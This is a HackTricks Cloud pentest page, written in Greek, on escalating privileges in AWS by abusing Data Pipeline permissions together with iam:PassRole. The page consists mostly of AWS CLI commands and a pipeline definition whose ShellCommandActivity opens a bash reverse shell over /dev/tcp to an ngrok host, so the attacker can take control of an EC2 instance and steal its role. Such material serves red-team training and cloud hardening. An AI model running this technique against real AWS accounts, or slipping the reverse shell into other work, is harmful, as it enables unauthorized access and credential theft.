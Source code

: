 # AWS - Datapipeline Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## datapipeline

Για περισσότερες πληροφορίες σχετικά με το datapipeline, ελέγξτε:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Οι χρήστες με αυτές τις **άδειες μπορούν να αναβαθμίσουν τα δικαιώματα τους δημιουργώντας ένα Data Pipeline** για να εκτελούν αυθαίρετες εντολές χρησιμοποιώντας τις **άδειες του ανατεθειμένου ρόλου:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
Μετά τη δημιουργία του pipeline, ο επιτιθέμενος ενημερώνει τον ορισμό του για να καθορίσει συγκεκριμένες ενέργειες ή δημιουργίες πόρων:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
Σημειώστε ότι ο **ρόλος** στις **γραμμές 14, 15 και 27** πρέπει να είναι ένας ρόλος **που μπορεί να αναληφθεί από το datapipeline.amazonaws.com** και ο ρόλος στη **γραμμή 28** πρέπει να είναι ένας **ρόλος που μπορεί να αναληφθεί από το ec2.amazonaws.com με ένα προφίλ EC2 instance**.

Επιπλέον, το EC2 instance θα έχει πρόσβαση μόνο στον ρόλο που μπορεί να αναληφθεί από το EC2 instance (έτσι μπορείτε να κλέψετε μόνο αυτόν).
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
Το **αρχείο ορισμού pipeline, που έχει κατασκευαστεί από τον επιτιθέμενο, περιλαμβάνει οδηγίες για την εκτέλεση εντολών** ή τη δημιουργία πόρων μέσω του AWS API, εκμεταλλευόμενο τα δικαιώματα ρόλου του Data Pipeline για να αποκτήσει πιθανώς επιπλέον προνόμια.

**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση των δικαιωμάτων του ρόλου υπηρεσίας ec2 που έχει καθοριστεί.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
